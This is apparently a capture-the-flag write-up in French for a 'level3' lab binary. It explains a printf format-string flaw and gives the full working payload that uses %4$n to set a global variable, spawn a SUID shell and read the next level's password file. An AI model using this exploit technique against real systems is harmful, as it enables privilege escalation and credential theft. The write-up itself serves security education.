





# LEVEL 3

## 1. Introduction

Le binaire `level3` présente une vulnérabilité de **format string** (chaîne de format). Contrairement aux niveaux précédents, le programme utilise `printf()` sans spécificateur de format, ce qui permet d'exploiter cette faille pour écrire dans une variable globale et obtenir un shell.

Ici le binaire lit une entrée standard et l'affiche :



## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level3
-rwsr-s---+ 1 level4  level3  747441 Mar  6  2016 level3
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe la logique suivante :

```c
void v(void) {
    char local_20c[520];  // Buffer de 520 octets
    
    fgets(local_20c, 0x200, stdin);  // Lecture sécurisée
    printf(local_20c);                // ← Vulnérabilité !
    
    if (m == 0x40) {  // Si m == 64
        fwrite("Wait what?!\n", 1, 0xc, stdout);
        system("/bin/sh");  // ← Notre cible !
    }
    return;
}
```

**Points clés :**
- `printf()` sans spécificateur de format = vulnérabilité format string
- Variable globale `m` doit être égale à `0x40` (64) pour obtenir le shell
- Buffer de 520 octets avec `fgets()` (lecture sécurisée)

### 2.3 Condition d'exploitation

On voit ici dans cette condition que si la variable globale `m` est égale à 64, on a un shell qui s'exécute :



### 2.4 Localisation de la variable globale

Avec Ghidra on peut voir l'adresse de `m` ici :



**Adresse de `m` : `0x0804988c`**

## 3. Exploitation

### 3.1 Vulnérabilité Format String

La vulnérabilité `printf()` sans spécificateur permet de :
1. **Lire la pile** : Afficher des valeurs de la pile
2. **Écrire en mémoire** : Utiliser `%n` pour écrire des valeurs
3. **Contrôler l'exécution** : Modifier des variables critiques

### 3.2 Détermination de la position

On peut utiliser `%n`, qui va écrire dans l'adresse donnée en argument la valeur du nombre de caractères déjà imprimés. Il nous reste à savoir à quel argument `printf` va lire notre adresse. Pour ça on peut simplement tester avec une simple commande :

```bash
echo -e "AAAA %p %p %p %p %p %p %p %p" | ./level3
```



L'adresse de **AAAA** est **0x41414141**, on peut voir ici que c'est à la 4ème position donc `printf` va le prendre en 4ème argument.

Donc pour le payload on peut utiliser **`%4$n`** ce qui revient à écrire le nombre de caractères déjà imprimés dans l'adresse donnée par le 4ᵉ argument.

### 3.3 Construction du payload

Pour notre payload nous allons donc utiliser :
- L'adresse de `m` : `\x8c\x98\x04\x08` (little-endian)
- 60 caractères de padding pour arriver à 64
- **`%4$n`** pour écrire au bon endroit

Ce qui nous donne :

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload
```

### 3.4 Exécution de l'exploit

```bash
cat /tmp/payload - | ./level3
```



### 3.5 Commandes complètes

```bash
# Se connecter au niveau
ssh level3@<IP> -p 4242

# Créer le payload
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload

# Exécuter l'exploit
cat /tmp/payload - | ./level3

# Récupérer le flag
cat /home/user/level4/.pass
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│                FORMAT STRING ATTACK                    │
├─────────────────────────────────────────────────────────┤
│  Adresse m[4] + Padding[60] + Directive[4]           │
│  │                                                    │
│  └─→ \x8c\x98\x04\x08 + "A"*60 + "%4$n"            │
│      │                                                │
│      └─→ printf() interprète comme format string     │
│          │                                            │
│          └─→ %4$n écrit 64 dans m à 0x0804988c      │
│              │                                        │
│              └─→ m == 0x40 (64) ✓                   │
│                  │                                    │
│                  └─→ system("/bin/sh")               │
│                      │                               │
│                      └─→ Shell avec privilèges level4│
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure du payload

```
┌─────────────────┐
│ Adresse de m    │ ← 4 octets (\x8c\x98\x04\x08)
├─────────────────┤
│ Padding (60 A)  │ ← 60 octets pour atteindre 64
├─────────────────┤
│ %4$n           │ ← Directive d'écriture
└─────────────────┘
```

### 4.3 Flux d'exécution

```
1. printf() reçoit notre entrée sans spécificateur de format
2. printf() interprète notre entrée comme des directives de format
3. %4$n lit l'adresse à la 4ème position (notre adresse de m)
4. %4$n écrit le nombre de caractères imprimés (64) à cette adresse
5. Variable m devient égale à 64 (0x40)
6. Condition m == 0x40 est vraie
7. system("/bin/sh") s'exécute avec les privilèges SUID de level4
```

### 4.4 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Format String │    │   Écriture      │    │   Condition     │
│   %4$n         │───▶│   m = 64        │───▶│   m == 0x40 ✓  │
│                │    │   0x0804988c    │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.5 Mécanisme de %n

```
┌─────────────────┐
│ Adresse de m    │ ← Pointeur vers la variable
├─────────────────┤
│ Padding (60 A)  │ ← 60 caractères
├─────────────────┤
│ %4$n           │ ← Écrit 64 (4+60) à l'adresse
└─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre l'importance de toujours spécifier le format dans `printf()` et d'éviter les chaînes de format contrôlées par l'utilisateur. 